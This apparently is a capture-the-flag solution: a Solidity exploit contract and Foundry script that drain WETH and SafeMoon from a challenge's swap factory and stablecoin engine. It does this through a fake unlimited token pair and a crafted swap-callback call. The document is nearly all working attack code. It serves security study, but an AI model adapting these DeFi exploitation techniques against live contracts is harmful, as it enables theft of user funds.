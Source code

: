 ### Exploit

```solidity
contract Exploiter {
    Setup setup;
    IBi0sSwapFactory factory;

    WETH weth;
    USDC usdc;
    SafeMoon safeMoon;

    address wethSafeMoonPair;
    address wethUsdcPair;
    address safeMoonUsdcPair;

    USDSEngine usdsEngine;

    constructor(Setup _setup) payable {
        setup = _setup;
        factory = _setup.bi0sSwapFactory();
        weth = _setup.weth();
        usdc = _setup.usdc();
        safeMoon = _setup.safeMoon();
        wethSafeMoonPair = address(_setup.wethSafeMoonPair());
        wethUsdcPair = address(_setup.wethUsdcPair());
        safeMoonUsdcPair = address(_setup.safeMoonUsdcPair());
        usdsEngine = _setup.usdsEngine();

        _setup.setPlayer(address(this));
    }

    function exploit() external {
        USDC fake = new USDC(type(uint).max);
        address fakePair = factory.createPair(address(fake), address(weth));
        uint addressAmount = uint160(address(this));
        fake.transfer(fakePair, addressAmount * 2);
        weth.deposit{value: 2}(address(this));
        weth.transfer(fakePair, 1);
        IBi0sSwapPair(fakePair).addLiquidity(address(this));

        weth.approve(address(usdsEngine), 1);
        usdsEngine.depositCollateralThroughSwap(address(weth), address(fake), 1, 0);

        uint256 FLAG_HASH = uint256(keccak256("YOU NEED SOME BUCKS TO GET FLAG"));
        usdsEngine.bi0sSwapv1Call(address(this), address(weth), FLAG_HASH + uint160(address(this)), abi.encode(FLAG_HASH));
        usdsEngine.bi0sSwapv1Call(address(this), address(safeMoon), FLAG_HASH + uint160(address(this)), abi.encode(FLAG_HASH));
    }
}

contract Solve is Script{
    function run() public {
        vm.startBroadcast();
        Setup setup=Setup(vm.envAddress("SETUP"));
        Exploiter exploiter = new Exploiter{value: 80_000 ether}(setup);
        exploiter.exploit();
        vm.stopBroadcast();
    }
}
```
